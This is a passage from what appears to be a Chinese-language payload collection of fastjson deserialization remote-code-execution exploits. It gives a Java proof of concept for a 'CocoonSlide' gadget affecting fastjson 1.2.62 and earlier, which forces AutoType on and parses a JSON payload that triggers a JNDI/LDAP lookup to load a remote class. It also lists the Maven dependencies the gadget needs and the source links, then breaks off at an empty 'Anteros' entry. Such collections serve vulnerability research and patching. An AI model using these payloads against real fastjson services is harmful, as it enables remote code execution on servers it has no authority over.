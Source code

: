 ### 来源

- https://github.com/threedr3am/learnjavabug/blob/master/fastjson/src/main/java/com/threedr3am/bug/fastjson/rce/IbatisSqlmapPoc.java

## CocoonSlide RCE（<= 1.2.62）

fastjson <= 1.2.62 RCE，需要开启AutoType (report by threedr3am to ASRC)

PS：因为引用了javax/jms/JMSException类，所以必须在javaee环境下

### Payload

```java
public static void main(String[] args) {
    ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
    String fastjsonPayload = "{\"@type\":\"org.apache.cocoon.components.slide.impl.JMSContentInterceptor\", \"parameters\": {\"@type\":\"java.util.Hashtable\",\"java.naming.factory.initial\":\"com.sun.jndi.rmi.registry.RegistryContextFactory\",\"topic-factory\":\"ldap://127.0.0.1:43658/Calc\"}, \"namespace\":\"\"}";
    JSON.parse(fastjsonPayload);
}
```

### 影响版本

- fastjson <= 1.2.62

### 依赖

```
<dependency>
    <groupId>slide</groupId>
    <artifactId>slide-kernel</artifactId>
    <version>2.1</version>
</dependency>
<dependency>
    <groupId>cocoon</groupId>
    <artifactId>cocoon-slide</artifactId>
    <version>2.1.11</version>
</dependency>
```

### 来源

- https://github.com/threedr3am/learnjavabug/blob/master/fastjson/src/main/java/com/threedr3am/bug/fastjson/rce/CocoonSlidePoc.java

## Anteros RCE（<=1.2.62）

fastjson <= 1.2.62 RCE，需要开启 AutoType (report by threedr3am to 阿里云先知众测 - 内部已知)

### Payload
